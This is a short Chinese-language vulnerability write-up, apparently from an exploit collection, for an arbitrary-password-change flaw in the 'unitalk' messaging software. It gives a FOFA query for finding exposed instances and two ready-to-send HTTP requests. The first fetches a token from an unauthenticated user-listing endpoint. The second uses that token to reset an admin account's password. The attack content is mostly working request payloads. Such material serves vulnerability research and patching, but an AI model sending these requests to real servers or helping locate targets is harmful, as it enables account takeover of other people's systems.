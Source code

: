 # unitalk存在任意用户密码修改漏洞

# 一、漏洞简介
unitalk是一款即时通讯软件，unitalk存在任意用户密码修改

# 二、影响版本
+ unitalk

# 三、资产测绘
+ fofa`title="unitalk"`
+ 特征

![1723520849027-9f8e29d4-1ac6-46e0-b014-eb6ac435cc13.png](./img/WSajtDrdCsRNXkAS/1723520849027-9f8e29d4-1ac6-46e0-b014-eb6ac435cc13-235810.png)

# 四、漏洞复现
先获取token

```plain
POST /unitalk/v1.0/user/getallusers.json HTTP/1.1
Host: 172.18.14.68:7778
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/113.0.0.0 Safari/537.36 Edg/113.0.1774.35
Content-Type: application/json;charset=UTF-8

{}
```

![1723521739904-fc153017-0a38-40a5-9656-f51032a33d77.png](./img/WSajtDrdCsRNXkAS/1723521739904-fc153017-0a38-40a5-9656-f51032a33d77-254525.png)

修改密码

```plain
POST /unitalk/v1.0/user/updateuser.json HTTP/1.1
Host: 172.18.14.68:7778
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Content-Length: 99

{"name":"admin123","role":"admin","pwd":"admin1234","token":"87535651-49c2-4a19-8aeb-401fc16c2366"}
```

![1723521732885-692972b1-b3fb-4ab3-a25e-dc1698149902.png](./img/WSajtDrdCsRNXkAS/1723521732885-692972b1-b3fb-4ab3-a25e-dc1698149902-653368.png)



> 更新: 2024-09-05 23:21:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qkiwy4qgvglm28o8>
